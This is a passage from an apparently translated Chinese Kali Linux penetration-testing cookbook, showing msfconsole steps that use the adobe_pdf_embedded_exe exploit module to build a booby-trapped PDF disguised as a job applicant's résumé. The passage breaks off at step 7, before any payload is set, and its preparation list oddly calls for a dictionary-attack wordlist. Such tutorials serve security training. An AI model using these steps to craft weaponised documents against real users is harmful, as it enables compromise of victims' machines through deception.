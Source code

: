 ## 6.9 Metasploitable PDF

这个秘籍中，我们会探索如何使用 Metasploit 来执行攻击，使用 Adobe PDF 内嵌模块来利用 PDF 文档漏洞。Adobe PDF 是文档传输的标准。由于它的广泛使用，尤其是由于它的商业用途，我们会通过让用户认为他们打开了来自求职岗位的正常 PDF 文档来攻击用户的机器。

### 准备

需要满足下列要求：

+   内部网络的连接。

+   运行在渗透环境中的 Metasploitable 。

+   用于执行字典攻击的单词列表。

### 操作步骤

让我们通过打开终端窗口来开始这个秘籍：

1.  打开终端窗口。

2.  启动 MSFCONSOLE。

    ```
    msfconsole 
    ```
    
3.  搜索可用的 PDF 模块。

    ```
    msfconsole pdf
    ```
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-cb/img/6-9-1.jpg)
    
4.  使用 PDF 内嵌模块：

    ```
    use exploit/windows/fileformat/adobe_pdf_embedded_exe 
    ```
    
5.  显示模块的可用选项。

    ```
    show options
    ```
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-cb/img/6-9-2.jpg)
    
6.  设置我们想要生成的 PDF 文件名称：

    ```
    set FILENAME evildocument.pdf
    ```
    
7.  设置 INFILENAME 选项。它是你打算使用的 PDF 文件的位置。这里，我使用桌面上的简历。

    ```
    set INFILENAME /root/Desktop/willie.pdf
    ```
    